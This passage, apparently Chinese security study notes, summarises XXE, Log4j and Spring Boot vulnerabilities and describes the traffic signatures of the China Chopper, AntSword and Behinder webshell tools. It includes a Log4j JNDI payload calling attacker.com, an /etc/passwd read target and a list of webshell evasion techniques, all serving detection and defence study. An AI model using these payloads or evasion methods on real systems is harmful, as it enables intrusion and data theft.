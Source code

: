 ### **免杀Webshell**

- **方法**：代码混淆、加密（AES）、动态函数调用、内存马。

### **XXE（XML外部实体注入）**  

- 攻击：读取本地文件（`file:///etc/passwd`）、SSRF。  
- 防御：禁用外部实体解析。  

```java
DocumentBuilderFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```



## 其他漏洞

### **Log4j漏洞（CVE-2021-44228）**

- **原理**：JNDI注入漏洞（CVE-2021-44228），通过日志触发远程类加载。
- **Payload特征**：`${jndi:ldap://attacker.com/exp}`，可能包含Base64编码。

### **Spring Boot RCE**

- **CVE-2022-22965**：通过数据绑定修改`class.module`属性触发恶意代码执行。
- **CVE-2022-22963**：Spring Cloud Function的SpEL表达式注入。





# **二、工具与流量特征**

## 蚁剑 / 菜刀 / 冰蝎异同

相同：都是用来连接 Web Shell 的工具 不同：冰蝎有流量动态加密

### 菜刀

菜刀 webshell 只使用了 url 编码 + base64 编码 shell 特征就是传输参数名为 z0，还存在 int_set (“display_erros”,”0″) 字符串特征

### 蚁剑

默认的蚁剑 shell，连接时会请求两次，其请求体只是经过 url 编码，其流量中也存在和蚁剑一样的代码 第一次请求，关闭报错和 magic_quotes，接下来去获取主机的信息 第二次请求，会把主机目录列出来

### 冰蝎 2.0

使用 aes 加密发起三次请求 第一次请求服务端产生密钥写入 session，session 和当前会话绑定，不同的客户端的密钥也是不同的 第二次请求是为了获取 key，第三次使用 key 的 aes 加密进行通信

### 冰蝎 3.0

使用 aes 加密发起两次请求 3.0 分析流量发现相比 2.0 少了动态密钥的获取的请求，不再使用随机生成 key，改为取连接密码的 md5 加密值的前 16 位作为密钥 一次请求为判断是否可以建立连接，少了俩次 get 获取冰蝎动态密钥的行为，第二次发送 phpinfo 等代码执行，获取网站的信息
